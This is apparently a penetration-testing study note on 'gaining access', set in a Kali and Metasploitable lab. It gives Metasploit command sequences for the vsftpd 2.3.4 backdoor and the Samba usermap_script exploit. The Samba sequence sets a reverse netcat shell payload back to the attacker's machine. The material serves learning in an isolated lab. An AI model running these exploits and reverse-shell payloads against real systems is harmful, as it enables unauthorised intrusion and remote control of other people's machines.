 # Gaining Access

Two main approaches:

1. Server Side

2. Client Side

## Server Side

---

* To check if the Metasploitable machine and the Kali machine are on the same network, we can do a ping test:

```shell
ping 10.0.2.5
```

* zenmap can be used to gather more information about the server, as we have the IP now. Based on the vulnerable ports and services, we can discover more attacks on it.

* For each open port or service, we can Google them followed by the term 'exploit', and that will give us an idea about the vulnerabilities.

* Metasploit framework can be used to develop and launch exploits.

* Example of backdoor vulnerability:

```shell
msfconsole #launches Metasploit

use exploit/unix/ftp/vsftpd_234_backdoor #use particular exploit

show options

set RHOSTS 10.0.2.5

exploit #launch exploit
```

* Example of payload execution:

```shell
msfconsole

use exploit exploit/multi/samba/usermap_script

show options

set RHOSTS 10.0.2.5

show payloads #shows all possible payloads for particular exploit

#bind payloads open up a port on the target computer, and we can connect to it
#reverse payloads open up a port on our machine, and the target computer can connect to it
#reverse payloads can bypass firewalls

set PAYLOAD cmd/unix/reverse_netcat #sets payload

show options

set LHOST 10.0.2.4

exploit
```

## Client Side

* These attacks require user interaction and should be attempted if server-side attacks do not work.

---
